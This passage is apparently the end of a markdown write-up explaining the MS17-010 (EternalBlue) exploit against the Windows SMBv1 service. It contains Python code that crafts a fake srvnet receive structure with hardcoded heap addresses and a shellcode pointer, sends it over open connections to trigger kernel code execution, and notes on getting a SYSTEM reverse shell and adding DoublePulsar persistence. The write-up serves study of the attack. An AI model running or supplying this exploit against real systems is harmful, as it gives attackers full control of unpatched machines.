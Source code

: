     fake_recv_struct += pack('<QQ', TARGET_HAL_HEAP_ADDR+0x170, 0)  # offset 0x110: fn_ptr array
    fake_recv_struct += pack('<QQ', (0x8150^0xffffffffffffffff)+1, 0)  # set arg1 to -0x8150
    fake_recv_struct += pack('<QII', 0, 0, 3)  # offset 0x130
    fake_recv_struct += (b'\x00'*16)*3
    fake_recv_struct += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR+0x180)  # shellcode address
    
    # one of srvnetConn struct header should be modified
	# a corrupted buffer will write recv data in designed memory address
	for sk in srvnetConn:
		sk.send(fake_recv_struct + shellcode)

	# execute shellcode
	for sk in srvnetConn:
		sk.close()
    ```
    - After the functions are overwritten, they point right to our shellcode for execution
### 5. Reverse shell
- Since the SMBv1 service is running in kernel mode, se are left with a reverse shell on the target that has NT AUTHORITY\SYSTEM priveleges.

## Final thoughts
- Although this exploit uses a very common and realatively simple buffer overflow, what makes this complex is using the crafted packets to perform the buffer overflow.
- Another very advanced method is the heap spraying and grooming
    - This vulnerability is susceptible to system crashes, giving away its covertness. With this method, we have control over the packets and the amount of memory we are allocating
- This exploit is so powerful because the SMBv1 service is running in kernal mode on ring-0, meaning that when its done, we have complete and total control over the target
- This exploit works across multiple systems
    - The SMB protocol uses slightly different packets and addresses, so implementing this accross different versions of windows is hard work
- Another topic not discussed is persistance. We can integrate "Double Pulsar" post exploit to keep our access to the machine.
- Credit to: https://github.com/3ndG4me/AutoBlue-MS17-010

